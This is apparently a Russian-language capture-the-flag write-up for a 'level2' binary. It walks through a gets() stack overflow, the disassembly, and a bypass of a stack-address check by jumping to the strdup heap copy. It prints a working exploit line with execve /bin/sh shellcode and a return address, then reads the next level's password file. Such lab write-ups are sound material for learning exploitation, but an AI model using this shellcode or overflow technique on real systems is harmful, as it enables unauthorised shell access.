 # su level2
# pass: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

====
Уязвимость: gets, заменить адрес возврата, с указанием на кучу, где лежит шеллкод
====

# ./level2 
1
1

**Поведение: ждёт ввода и возвращает то, что было введено**

# ./level2 
qwertyuiopogfdfghjkl;lkjhgfdcfvghnjmk,l.;';lkjhgfrt6y7uikmnbgtyuiol;.,mnbhjuik
qwertyuiopogfdfghjkl;lkjhgfdcfvghnjmk,l.;';lkjhgfrt6y7uikmnbgtyuJ.,mnbhjuik
Segmentation fault (core dumped)

Можно вызвать сегфолт, проверяем по ltrace, опять уязвимая gets

# ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                             = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5edwd
)                                  = 0xbffff70c
puts("edwd"edwd
)                                                                   = 5
strdup("edwd")                                                                 = 0x0804a008
+++ exited (status 8) +++

Есть fflush (очистка буфера или вывод в файл), gets, puts, strdup

# disas main

Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>          p()
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret    
End of assembler dump.

Вызывается функция p
Почекаем еще функции

# i func 
< >
0x080484d4  p
0x0804853f  main
< >

Посмотрим эту функцию

# disas p

Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp                   104
   0x080484da <+6>:     mov    0x8049860,%eax               stdout
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>       fflush(FILE *stream);
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax             -76
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax             & 0xb0000000
   0x08048500 <+44>:    cmp    $0xb0000000,%eax             сравнение
   0x08048505 <+49>:    jne    0x8048527 <p+83>             если нет, то на 83          
   0x08048507 <+51>:    mov    $0x8048620,%eax              "(%p)\n"
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx              -12
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>        printf
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>        _exit(1)
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret    
End of assembler dump.

Суть в том, что мы не можем перезаписать адрес выхода и перейти на начало нашего шеллкода, так как идет проверка на стек, и в случае неудачи происходит exit.
У нас есть функция strdup, адрес начала которой мы можем узнать (т.к. отключена рандомизация памяти - 0x0804a008), и мы можем указать начало строки. Шеллкод исполнится, т.к. мы будем указывать не на стек, а на кучу. Надо указать строку длиной 80.
b *p+19
r
x/a $ebp + 4 (0xbffff72c: 0x804854a <main+11>) - возврат
p/x $ebp - 0x4c (0xbffff6dc) - начало буфера
p/x 0x4c + 4 (0x50=80) - до адреса возврата
$ebp + 4 - ($ebp - 0x4c)

Таким образом, пишем шеллкод, где вызываем шелл, заполняем строку символами в необходимом количестве + указываем адрес возврата (куча).

(http://shell-storm.org/shellcode/files/shellcode-472.php)

26 шеллкод + 54 мусор + 4 необходимый адрес

# python -c 'print "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A" * 54 + "\x08\xa0\x04\x08"' > /tmp/l2

# cat /tmp/l2 - | ./level2

# cat /home/user/level3/.pass 
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
